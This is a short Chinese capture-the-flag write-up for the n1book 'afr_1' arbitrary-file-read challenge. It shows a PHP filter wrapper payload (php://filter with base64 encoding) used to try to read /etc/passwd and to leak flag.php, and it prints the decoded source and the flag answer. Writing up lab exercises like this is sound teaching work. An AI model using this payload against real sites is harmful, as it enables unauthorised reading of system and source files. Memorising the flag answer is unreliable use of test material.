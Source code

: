 ```yaml
---
Author: SuperJason
Date: 2020-12-18
---
```


## flag
`n1book{afr_1_solved}`

## 思路
1. 访问环境时注意参数`?p=hello`，可以遍历一下命令`cmd、ls、whoami、flag`等，当输入**flag**时，提示nonono，开始尝试php伪协议。
**此处p=hello表示的应该是指向hello.php文件**

![](./images/afr1.png)
2. 这里我首先通过伪协议判断能不能读取/etc/passwd，没有反馈，在这里卡了很久
    - php://filter/read=convert.base64-encode/
3. 后来修改/etc/passwd为flag，获得base64码
    - PD9waHAKZGllKCdubyBubyBubycpOwovL24xYm9va3thZnJfMV9zb2x2ZWR9
4. 解码得到
`flag.php`
```php
<?php
die('no no no');
//n1book{afr_1_solved}
```
同理`hello.php`
```php
<?php

echo "hello world!";
```
与之前猜测一致
## 总结
这种题目一定要抓住关键词，本题给了**hello关键字**，应该立马联想到伪协议读取hello，然后再读取passwd等文件